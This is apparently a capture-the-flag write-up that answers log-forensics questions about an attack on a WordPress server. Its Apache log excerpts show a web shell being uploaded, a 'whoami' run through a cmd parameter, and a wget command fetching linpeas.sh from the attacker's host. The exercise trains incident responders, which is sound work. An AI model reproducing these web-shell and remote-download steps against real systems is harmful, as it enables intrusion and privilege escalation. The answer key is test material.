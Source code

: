<br>

<p>6.2. What is the first directory that the attacker successfully identifies? Hint : What response code can we grep for that indicates a successful response?<br>
<code>/wordpress</code></p>

<br>

<p>6.3. What is the name of the <code>.php</code>code> file the attacker uses to upload the web shell? Hint : The attacker successfully identifies a .php file then sends a subsequent POST request.<br>
<code>upload_form.php</code></p>

```bash
ubuntu@tryhackme:~$ cat /var/log/apache2/access.log | grep .php
...
203.0.113.66 - - [17/Jul/2025:06:09:27 +0000] "POST /wordpress/wp-content/uploads/upload_form.php?file=shadyshell.php HTTP/1.1" 200 204 "curl/8.14.1"
```

<br>

<p>6.4. What is the first command run by the attacker using the newly uploaded web shell? Hint : Using grep "cmd=" will allow us to see all of the commands executed by the attacker.<br>
<code>whoami</code></p>

```bash
ubuntu@tryhackme:~$ cat /var/log/apache2/access.log | grep shadyshell.php
203.0.113.66 - - [17/Jul/2025:06:09:27 +0000] "POST /wordpress/wp-content/uploads/upload_form.php?file=shadyshell.php HTTP/1.1" 200 204 "curl/8.14.1"
203.0.113.66 - - [17/Jul/2025:06:12:23 +0000] "GET /wordpress/wp-content/uploads/shadyshell.php HTTP/1.1" 200 456 "curl/8.14.1"
203.0.113.66 - - [17/Jul/2025:06:14:55 +0000] "GET /wordpress/wp-content/uploads/shadyshell.php?cmd=whoami HTTP/1.1" 200 10 "curl/8.14.1"
...
```

<br>

<p>6.5. After gaining access via the web shell, the attacker uses a command to download a second file onto the server. What is the name of this file?<br>
<code>linpeas.sh</code></p>

```bash
ubuntu@tryhackme:~$ cat /var/log/apache2/access.log | grep '/wordpress/wp-content/uploads/shadyshell.php?cmd='
...
203.0.113.66 - - [17/Jul/2025:06:20:36 +0000] "GET /wordpress/wp-content/uploads/shadyshell.php?cmd=wget%20http://203.0.113.66:8000/linpeas.sh HTTP/1.1" 200 1 "curl/8.14.1"
```

<br>

<p>6.6. The attacker has hidden a secret within the web shell. Use cat to investigate the web shell code and find the flag. Hint : The web shell is stored in /var/www/html/wordpress/wp-content/uploads.<br>
<code></code></p>
